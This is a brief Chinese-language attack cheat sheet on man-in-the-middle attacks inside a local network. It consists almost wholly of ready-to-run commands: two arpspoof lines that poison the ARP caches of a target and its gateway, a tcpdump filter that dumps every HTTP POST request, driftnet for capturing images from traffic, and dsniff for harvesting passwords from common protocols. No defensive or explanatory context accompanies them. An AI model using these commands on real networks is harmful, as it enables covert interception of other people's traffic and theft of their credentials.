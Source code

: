 # 内网中间人

## 1. arp 中间人

* arp 毒化

```text
arpspoof -i [Interface] -t [Target_ip] [Gateway_ip]
arpspoof -i [Interface] -t [Gateway_ip] [Target_ip]
```

* dump 所有 HTTP POST 请求

```text
tcpdump -s 0 -A 'tcp dst port 80 and (tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354)'
```

* 嗅探 HTTP 中的图片

```text
driftnet -i [Interface]
```

* 嗅探常见协议密码

```text
dsniff -i [Interface]
```

